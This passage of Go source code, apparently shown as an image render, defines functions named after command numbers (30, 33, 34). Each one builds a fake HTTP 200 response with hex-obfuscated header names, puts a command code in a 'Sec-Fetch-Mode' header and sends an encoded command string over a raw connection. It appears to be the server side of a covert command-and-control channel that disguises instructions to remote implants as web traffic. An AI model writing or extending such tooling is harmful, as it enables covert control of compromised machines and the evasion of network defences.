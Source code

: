 ```plain
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + "33" + string(res_newline) + string(res3) + strconv.Itoa(len(command)+1) + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))

    time.Sleep(2 * time.Second)

    conn.Write(encode(append([]byte(command), byte(00))))
}

func Command_30(conn net.Conn, command string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + "30" + string(res_newline) + string(res3) + strconv.Itoa(len(command)+1) + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))

    time.Sleep(2 * time.Second)

    conn.Write(encode(append([]byte(command), byte(00))))
}

func Command_34(conn net.Conn, text string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + text + string(res_newline) + string(res3) + "0" + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))
}
```
